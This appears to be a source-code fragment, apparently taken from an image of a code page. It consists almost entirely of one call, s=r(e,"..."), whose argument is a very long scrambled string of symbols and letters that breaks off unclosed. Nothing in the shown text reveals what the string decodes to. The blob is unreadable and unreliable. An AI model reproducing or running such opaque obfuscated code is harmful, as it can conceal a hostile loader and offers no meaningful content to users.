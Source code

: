 s=r(e,"W*MeS+%!o.9RuK:_*u9%!.SuMt_.u+.o%RR?!%++Mu:_Ky9S)S:_9.!uS_%_%Se!V.u*9%!!S%ZKI*KM.u!SSb*_u!RRo.+ueNxuRMRooR+uR:.R%ee%,.M+__9M.%ou+_S6a%:!R9+S::uo.e%%e.++SK*o_S9u9S%:e%9+!RS9*K_)JS:MRK!%*l:%R+oo+R.+%MS*fu!R+KM{_eu%_9Ku9_!:S:*R:uKM.9!eS+K.:!ue.M%Su99e%_SM*+SRM9_uK+..!+S:9:oK+eM%_.MR:*R_o9+ue!M._SRuo9+!++M+oS%MM._uu_:!:KRoo!+KM9Oo.So*oMS.*!o!+:Mu__KM*RK.R!.e+%u+._%9eK*QeeMo::u..o!!SM:M!u+MM*_Su!(ou:9K!o:!uSou+_eM%.eK*::*ueoK%!e:0%K_R**!:KRuo_%M9.o*SR*eo*+SM!_9uK9q_e.!+.:KuM.M%+eo%P+a*Ko+%*M9_KK<:Ku..o%9eeM!_oK!._!e:MR.o!+9MKS*S%*.K:u8Ml_uu+.o%Ro+!M+**u999...!*S*:e!K+.MM_+uo:Mu_9:!.T!,o::uK.oS{K9RM!_+MM+%*e.j9K9RM!u:Ru!.c%ee%S9e_*M_*u9.%%_m_YoK.So*::Kum.eKo9M%_S!Reo%+oMR_:3m9+!RS9*K_m**_!K%9**t_FR+oo+R!+%%So_!:uRuoS%oM.JKR+9K!o+SR..!+:e*-Se9*.:RuSoo%SeKu.:eRRo+SKRu9e%*eSs!M9*_:_u!.+M%M**MK!R!S+eSMM_%KM9R!eSe*.:ouoM90pu_9M!+R%oa%%e+.+%:e9DK:q_R_9uK.uS%e!*.!.+%*:_*uSK_K:R*ome%*R_RKM.o%+e99.!RS:M*_Suo9*%KS#*eS:*::Kue.!!!SR9uoM+*MS_!?_vR:+RA*!%:Ruo_%M.K!uS_*:_So:+%M.SSs+K+9:oo+RM9urK*.KoMS!MS:+uM._%_e*K*:eRoo**K_*_%Ko9SeK+o*.:.uM.u%_e:*.9o!K+GMS_:u9.u!HSo*9:KR_.*%.e!ERKKR+oM+9MS_u_::+9R!o+9?R_9RS9Se_M*_Ouf9>+K!&M9*!:.9u%_eK_e:o.!9u!+eR*+R%._!9e_S%*!9uoE+K+uMeZRu!R*S:eZ*!KS9:%M%9e_Ko9K9}%%eSM_s:9*.S+_S*M__e9+o%!%K+9K!9SKMw+.M__:Ko9eo+:%ueoR+:e*+!*u_oK*..!*eR*+_Ru+!S*%::RRo:%*..!Seu*M:Su%M!e9uu._!M..ot+Se*R*u99=!%SMKn_9R!.u*ue_*S:SRuoz+*e+_.uR+9oSS.M!::!.!.%:S**euRR(o****9u9o9._o.pe*u::uq.S!Se%*SRSo!+9MK:!&.KR%P!!S_Mu:_u:9S%.K.RM!:+*MSS!e%_::.9ooo+uRuo_%Me+qoKR::*J.SMoQ*uK96!e.%o+SKMM_!9:.u2u:.R*oS+!!%%uee2S:M..oo+8eR_9K9eu*M:*RSo!99!u+eM!9!.MSu*__MMK=uK_9:oS*::%R.u_._%+SM*o_S!Ko+%Se+u9K+9Mo*SuMKRu%*eKV%K.9uu%R!..SRe8*a:!9K!9S_R:.!%ee%/.MS*S:eR.oK%KS*9M!RS!*9:K*n,+uR9%!++S*_o%%9MR_:K*_*KoRuoo++e!A%K+.K!MS!Go:KuK9S%9e!du!R+%MA_eu%::K_9SoS+e*._oue%R4+Ku99!K+)o%%+e+fR:*S+*%:.R:o:%*eS!!S%*_o*+%M%_.uu:%R!..*._.R:.*%SoS%_S9*M:ouo.u%Seo*Mu.u*oR+euM.o%!e9UKMMMM:9KMMK*MKM9+!oRe.M%+eSm99S%ue_+.:9R!u+.e%!Se*u9.RRo%_+K*.9%KSd+Ke. oK99S9j%oS!4_:e+Me*_!u9.Ku_9MSd*e2S:%9R!.SM)+Ko:7ReMo_:uK91!eo!o/+*_..e!*eo3RK:*._ouR.9+uSMao:!R:o*%Me%.%%ReRt::*M!6iuoM:{SKe9%!.RS.%+RM...oMe:**:S*__:K*9?!%*zKo9RR!.%%.eo_KK!9_SM+%Mu_So_.9%RSK9K.e+MM+_o*:(eK_Roo,+oMM_u.?!u!MS9*%:!u!.o%Ke!;_:oSoMM:Kud.eK99o!9+S*_:!RK.K__K%9S!!S9.*+.e!BMu:eK*e:MR+oo9..K%_e.9o!:SKM{_e?K_9K.9S*+:+R..*+:e*BSMST__*Ro.M+9u99R%_SM*+eReS_uo:!9!OSo*S:+u+.%%Re+5K:%_R*o:RR:.*!Ke!,9KKR*oe+%M.j::%9M!+So*K::u*.S!.e_JK:qReo_+.Mu___oR:!oSR*:_!uS.o%9%+*w:!:oo.+uM_7oK+9.!R+M+e_Su!.9!SSN*S:%R.Re+_eM;+K.9R!:+*e%^Ru9.K!/S.*%:.Ru9_%+e+}oKR9:o*!eM!1uKR9d!+S%+e:uR_.M%+S_0RK:R*o%+!Mu_K:M9+!%S9*u_+uM.+%o+RMM:*R+o!+RMKM_KeRoo9SuMM_M::.o%Re:**:%R!oR+KeeceKo9..u%SMM_%uo.u%:%K*S_._KoK%*eeeuK.9u!_+MSM_ouu.:!MSS*!:9RK9S%eeoH.Ku9_oM++e9E_u:9S!S!K*9:KuURe%:e.7_K_R+o+.NMR*gK+9S!RS9SE_Eue.%o.S!P_:%R+ou+R%%A*_SRu!9+*Ms_!u%u9%uS+e_:+RRoR!9e*A+K!9:!K+S++_%u..uoRSM*%:oRRuS%*e+U!KR9Kor+eM9MRuu._!M%.*o:uR:9e!oe!OKKK:%oe+%M.*u_.9M!oSo*:::_..S!.S.hK:SRe9.+.Mu___MRS!oS_*:_+uSu_%9+KMs:eR9o.%IM_S!K+9:!KS:MS_S:R.9%:S<*!:%RKR:+_eM=+_u9R!_+*MSMKu9.:!?Se*%:.RuR+%Ke+B.KRK+o*++M!S*uK9S9+S%*.:u:%.M%%eo3_*<R*oS+!+%_KK*9eoo+K*u_MuMuR%oeR7:w*K.o!+KMK&eKeRK!.!MeS_Muo.o.!e:*M:Su!o9%*%MPeK%9.9oS_Me_+uoK*%:Se*S:oR9oK%0S+*9K.9_!_+oM+_ouRR:.+SS*9:9u5.N.Me%*R:e9_o!+++9_Ru:9*!SS.*9_Fud.o%%eRau__uMo++uMRh*K*R_!!+uee_gu..%%_eui_:MK+.M+ReSc*K99!9+SKeM_uu%9&%u%M*M:+Ro9R!ee*?RK!R*!K+SMe*%:+.u!%SM*u:ou:o:%*e9E!K:9Ko!+eMo_.K:9K!MS9*oM.R:.*%SS.*^KKR%oe.+M._uu_9ooKSoM*::_K.S%oe92::mR!Ro+.Mu__&:9+!.SRMMMeuS.!%9!u*n:SR%.R!lM_&oK+:!!RS:M**Suo.9!MSl*.:%R9ou%ee_U+Ko9Ru*+*M+_!KuR*!IS.*%Q_Ruo_%MeRx:KRRSo*.!M!_RuK9q!eS9SR:uR_.M9oeoHuK:Re.*+!M__KK-9e!%S.*unuuM.R%oSL0::*RSo!!MMKH!Ke9%!.S:*_MMuK.o!Me:MM:S_oo9oKS%TeKK9.uSS_+._+uo._%:S!*S:.R9o_%{+e*SK.RM!_+oM+e*uRRQ!!SS*::9ue.E%ee%M._+9_o.++M__R_K9*o%oR*9_%u#Re%%e.ZuK_::o++_MRa!K*9%!!%9e%_ru9.%!-euM*:MR+9M+Re!k*K99!!9SKM5<+u%9B%uSo*M:!RooR!oe*ruK!9:!K+xMe oK9.u!oSM+::oRRo:!e+XL!:S9Ko9+eM%_.K::e!M+q*oDoR:.*%SS.#uKKRuoe.oM._uu_9Mo_SoMe::uK.S%oe9*_MSReo_+.SK__KM9+o9S_*:_9uSK!%9eK* _+R!o.%+M_MdK+9o!RS:M__SK*.9!+SQ*e:%R.9M+_eKU+:e9R!:+*MogMu9.K!j9!*%:9Ru9_!!e+*%KRR+o*!%M!_9_+9to*S%M!:uuu.M%Re_BR:uR*:o+!MR_KKv9e!9!R*u:_uM_.%oeu):G*u.o!%oMKx!Keuo!.Su%S_MKe.o!.e:*::Su..++Ke:te*%9.!uS_M%_Kuo.R%:9!*S:oR9.e.*eeh_K.Po!_+eM+_9uR9M9eSS*!:9*..f%Se%*R_I9_oR++%o_Ru:9*!9o+*9_%uI_K%%e98u:6RMo.o9MR_:K*4:!!SR*K_S_+.%%.euuS:MR%oo%KSM>*KK9!o;SKMm_e:%:!%uSo*M::RoR9+:Se*:K!R+!K!JMe_%u..u!:SM*::ou%o:%eeS*.:o9Ko9+eS9_.uu._!M+_*o_%R:.*%Se.C9iKuNoe%*M.HSu_ue!+SoM_::uK.S%oe9rK:=ReRR+.e.__KM9+!KSRS:*euS9S%9o**n*_R%.R+:M_*aK+:o!RS:M*XSKK.9!9SYM*:%u!ouo_eKL+:+9RoK+*eu_!Ku._!0+**%MuRuo_%MS!MMKRRKo*!:M!_9uK9,o:S%M!:uu*.M%!eo*RK:R*.*+!+:_KK:9e!%%e*u_KuM.u%oeRG::*Ruo!%.MKbrKe9.!.!uM9_MKS.o!oe:SS:Su..o+KSbme*u9.!uS_SMc.uo9R%:+**S*nR99K%+ee*%K.Ru!_!:M+*oK%.:o*SSM!:9K!.O!ee%O.:R9_oK++eo_R_:uS!S+%*9}eu&uo%%e.*+K_uMo++oMRZ*K*KSo+S9MK_wK2.%%ueu*__1R+.o+Re.P*KS9!99%eM=3eu%9_%u!S*M:+RRoR%_e*sSK!9K!Ko0M:_%K9.u!uSMM.:ouKKM%*S%#!Po9Ko3+eeoMouuRM!MSR*o:RR:R*!:e!*KKKueoeo*M.b::R9Mo.SoeS::u*.S%!S%8K_MRe.o+.Sk__:MR:!o+u*:_uuS9.%9%KMM:eu!o.!MM_e!K+9ooSS:ee_Su!.9! StSeMuR..:+_e_2+:K9R.:.EMS?9u99*! +K*%_.Kgo_!Se+*eKRu*o*oSSS_9K_9Lo.S%S::uR_.K%+SR{RK:R*o!+!+9*oKZR%!%+%*uMuuM9!!9eRMM:*:9o!+9MKM#:M9%oKSuee_MKu.o!Re:**_!R!.++KSSGeE%uu!u%MMMLRuoK1%:S**u:!u:oK%3eew.K.Ku.o+Me._oKo.:!KSSM!deRK9S%eS*<.KK9_RM+oMo>_u:R!!S!u*9:KK9.e!Re.0uK_R+o+ooe._::%9SoSS9MM_/Ke.%%.+*b_:KR+o9+R+:SKKSRu!9%eM?Mou%..ooe_M):+uKoR+_e**SK!99o9+mSo_%K!.u%_%M*+_SRR.R%*e+l!:99Ko +:M%M3uu9R!M%+S*:Ru9.*%Ke!S+KKR4oo+%e!_uK99M!+So*R:_u*9z%!SoBK:MReo%%RMufuKM9+!oSu*:M*K+.!!!eKMu:eRKo.+ueuiM:e9o!RS:M+_SK!.R%KS:*e_!R..%+_SMc+KoR.!:o9MSjeu9uK!:SeMS:.USo_o_e+*o_M9:o_+S+!_9K995!eSR*._RR_.!%+eo8RK:uSoS%!M9/RKx9e!%S.Mo:_K*.+%9eRP_:*RS9:+9MKqdKS9%!.SuMF_Mu+.o!Me:**:SRo.p+KePNeMe